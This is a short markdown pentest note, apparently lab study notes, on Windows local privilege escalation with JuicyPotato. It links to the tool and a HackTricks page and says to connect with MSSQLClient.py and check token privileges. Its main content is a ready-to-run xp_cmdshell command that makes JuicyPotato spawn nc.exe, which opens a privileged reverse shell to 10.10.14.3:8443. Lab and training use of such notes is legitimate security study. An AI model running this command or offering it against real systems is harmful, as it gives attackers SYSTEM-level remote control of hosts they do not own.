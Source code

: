 https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato
https://github.com/ohpe/juicy-potato

Connect first with [[MSSQLClient.py]]
look for Key privs

### Run JuicyPotato
```shell-session
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
